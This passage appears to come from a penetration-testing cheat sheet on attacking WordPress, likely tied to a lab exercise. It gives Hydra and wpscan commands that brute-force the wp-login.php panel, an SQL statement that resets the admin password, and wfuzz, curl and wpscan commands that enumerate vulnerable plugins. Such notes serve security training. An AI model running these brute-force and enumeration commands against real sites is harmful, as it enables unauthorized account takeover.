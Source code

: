 After guessing the username, we can use Hydra again and guess the password with the dictionary.

{% hint style="info" %}
We may have to change the failed identification request from "Invalid username" to "The password you entered" most likely.
{% endhint %}

## Bruteforce login panel

{% code overflow="wrap" fullWidth="true" %}
```bash
# HYDRA
hydra -l admin -p passwords.txt -f 10.10.195.175 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.175%2Fwp-admin%2F&testcookie=1:The password you entered for the username"

# WPSCAN - BRUTE FORCE WITH A USER(S) WE GOT PREVIOUSLY
wpscan --url $URL[/$PATH] -U $USER(S) -P $WORDLIST --max-threads 50
```
{% endcode %}

## Change password (MySQL)

{% code overflow="wrap" fullWidth="true" %}
```sql
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass = MD5('hola') WHERE ID=1 LIMIT 1;
```
{% endcode %}

## Enumerate plugins

{% code overflow="wrap" fullWidth="true" %}
```bash
# First check if /wp-content/plugins/ have directory listing enabled
# Another way
curl -s -X GET http://web.com/wordpress | grep plugin

# NMAP
https://nmap.org/nsedoc/scripts/http-wordpress-enum.html

# MANUAL ENUMERATION  WITH WFUZZ WITH A WORDPRESS VULNERABLE PLUGINS LIST 
https://raw.githubusercontent.com/RandomRobbieBF/wordpress-plugin-list/main/wp-plugins.lst
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt
wfuzz -c --hc=404 -w dict http://$URL/wp/FUZZ

# WPSCAN
# ap (all plugins), all themes (at), config backups (cb), Db exports (dbe)
wpscan --url sandbox.local --enumerate ap,at,cb,dbe
# vulnerable plugins, themes, users viral timthumb vuln, config back, db exp
wpscan --url http:// -e vt,tt,u,vp,cb,dbe
# ENUMERATE VULNERABLE PLUGINS (SOMETIMES MAY FAIL, TRY ALSO TO ENUM ALL)
wpscan -e vp #just vulnerable plugins
wpscan --enumerate p/ap --plugins-detection aggressive #popular/all aggressive way
```
{% endcode %}
